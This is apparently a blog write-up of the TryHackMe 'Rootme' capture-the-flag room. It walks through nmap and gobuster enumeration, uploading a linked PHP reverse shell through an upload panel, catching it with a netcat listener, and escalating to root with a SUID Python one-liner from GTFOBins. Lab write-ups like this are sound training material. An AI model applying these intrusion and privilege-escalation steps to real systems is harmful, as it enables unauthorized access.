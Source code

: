 ```yaml
---
title: "Rootme"
date: 2023-06-01
img_path: /assets/img/Posts/rootme
image: rootme.png
categories: [Tryhackme, Easy]
tags: [nmap, enumeration, gobuster, gtfobins, netcat]     # TAG names should always be lowercase
---
```


> **[Rootme](https://tryhackme.com/room/rrootme)** is a fairly simple linux box. We shall start with `nmap` scan to see the ports open on the machine. We would then use `gobuster` for directory brute force and from there we would find where you can upload a file. So we shall upload a reverse shell script which will give us the initial access on the system. Finally we shall do privilege escalation by exploiting the `SUID` of one of the files to get root privileges.
{: .prompt-tip }

## Enumeration

We will begin with port scanning to know which ports are open. We shall use `nmap` . We have used `-sC` for default scripts, `-sV` to enumerate all versions, `-oA` to output all format in a file called `initial` and finally it’s `IP` address. Here is the results:

```bash
└─$ nmap -sC -sV -oA initial 10.10.151.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-01 11:31 EAT
Nmap scan report for 10.10.151.224
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.88 seconds
```

Well `Port 80` is open so we shall use `gobuster` for directory brute force and here is it’s results:

```bash
└─$ gobuster dir -u http://10.10.151.224/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.151.224/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/06/01 11:30:55 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.151.224/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.151.224/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.151.224/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.151.224/uploads/]
Progress: 4713 / 4714 (99.98%)===============================================================
2023/06/01 11:33:20 Finished
===============================================================
```

Well, we have a directory called `/panel` and if we go there we would see that we can upload some file. Since the website is running on `php` we need to find a `php` exploit that will give us a reverse shell.
![panel](panel.png)_panel_

## Initial access

We used the same exploit that was previously used on the [LazyAdmin](https://yrncollo.com/posts/LazyAdmin/) challenge to gain initial access. Change the `IP` and the `Port` that `netcat` will be listening from. The exploit can be found at the following GitHub repository: `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`.

```bash
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

Well we have gotten shell and we are `www-data` . So we need to upgrade our shell so that we have a stable shell.

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$ ^Z
zsh: suspended  nc -lvnp 9001
```

Press `Ctrl + z` to background the session then:

```bash
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

bash-4.4$ export TERM=xterm
bash-4.4$
```

## Privilege Escalation

After gaining access as `www-data`, we need to escalate our privileges to gain root access. We can start by searching for files with the `SUID` bit set using the following command:

```bash
find / -perm /4000 2>/dev/null

```

This will show us all the files with the SUID bit set. We can then use [GTFOBins](https://gtfobins.github.io/) to find ways to exploit these files. In this case, Python was not set correctly and we can exploit it by using this from `gtfobins`:


```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

Once we have a root shell, we can navigate to the `/root` directory and read the `root.txt` file to get the flag.

```
# cd /root
# ls
root.txt
# cat root.txt
THM{changed_the_flag}
#

```
> Yeah that's it... We have successfully hacked into rootme machine and if you have any questions regarding the box you can ask on the comment section. **HAPPY HACKING CHEERS** ;)
{: .prompt-tip }

